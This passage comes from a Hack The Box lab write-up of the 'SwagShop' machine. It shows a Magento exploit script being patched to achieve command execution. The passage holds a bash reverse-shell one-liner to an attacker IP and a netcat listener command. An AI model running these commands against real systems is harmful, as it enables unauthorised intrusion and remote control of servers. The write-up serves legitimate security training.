 If you view the source code, you’ll find the following URL.

```text
...
<img src="http://10.10.10.140/index.php/admin/dashboard/tunnel/key/7ab75c459aa9aa75aaf35f957579c666/?ga=YTo5OntzOjM6ImNodCI7czoyOiJsYyI7czozOiJjaGYiO3M6Mzk6ImJnLHMsZjRmNGY0fGMsbGcsOTAsZmZmZmZmLDAuMSxlZGVkZWQsMCI7czozOiJjaG0iO3M6MTQ6IkIsZjRkNGIyLDAsMCwwIjtzOjQ6ImNoY28iO3M6NjoiZGI0ODE0IjtzOjM6ImNoZCI7czoyMjoiZTpBQUFBQUFxcUFBQUFBQUFBQUFBQSI7czo0OiJjaHh0IjtzOjM6IngseSI7czo0OiJjaHhsIjtzOjU4OiIwOnx8MDIvMjAxOXx8MDUvMjAxOXx8MDgvMjAxOXx8MTAvMjAxOXx8MTIvMjAxOXwxOnwwfDF8MnwzIjtzOjM6ImNocyI7czo3OiI1ODd4MzAwIjtzOjM6ImNoZyI7czozNToiMTEuMTExMTExMTExMTExLDMzLjMzMzMzMzMzMzMzMywxLDAiO30%253D&h=b47e205efe9e93bcf282877b9609b5b5" alt="chart" title="chart" />
...
```

The url includes the “ga=” regex string that the script was looking but couldn’t find! So if we change the period to “2y” in the script, we should get a working exploit!

```text
request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)
```

Run the script again.

```text
root@kali:~/Desktop/htb/swagshop# python 37811.py  http://10.10.10.140/index.php/admin "whoami"www-data
```

We have command execution! Change the payload to include a reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```text
python 37811.py http://10.10.10.140/index.php/admin "bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'"
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Run the script.

![](../images/max/975/1*2wofzyWVAHdEuuJToW6TjA.png)

We have a shell! Let’s upgrade it to a better shell.
